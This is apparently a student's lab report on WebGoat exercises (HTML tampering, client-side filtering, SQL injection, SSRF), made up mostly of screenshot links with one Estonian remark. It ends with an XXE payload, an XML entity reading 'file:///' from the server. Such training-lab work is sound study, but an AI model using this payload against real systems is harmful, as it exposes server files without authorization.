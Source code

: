 # PRAKTIKUM 13

**HTML TAMPERING**
![image](https://github.com/alexandravoit/ANDMETURVE-2024/assets/145194484/6daa8df5-00a4-4ef2-9355-c9648a502e67)

**BYPASS FRONT/END RESTRICTIONS**  
![image](https://github.com/alexandravoit/ANDMETURVE-2024/assets/145194484/cb59061c-392f-4ae4-9594-c3ba931eb42e)

**CLIENT SIDE FILTERING**  
![image](https://github.com/alexandravoit/ANDMETURVE-2024/assets/145194484/06d4eb2d-45b3-4f18-a583-04cd7e7378e1)

**CRYPTO BASICS**  
![image](https://github.com/alexandravoit/ANDMETURVE-2024/assets/145194484/5ae8f454-f714-41fa-8e07-96ff73d03f54)

**SQL INJECTION INTRO**  
![image](https://github.com/alexandravoit/ANDMETURVE-2024/assets/145194484/efd5e4ab-7ec2-4195-b615-5abef8d0c852)

**SERVER-SIDE REQUEST FORGERY**
Millegi pärast ütleb WebGoat, et võti on vale, kuigi sain ülesande tehtud ja positiivse teate:   
![image](https://github.com/alexandravoit/ANDMETURVE-2024/assets/145194484/66bc2f75-5c1e-4f0c-8c39-5b5f6bbd1382)

<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment><text>&xxe;</text></comment>

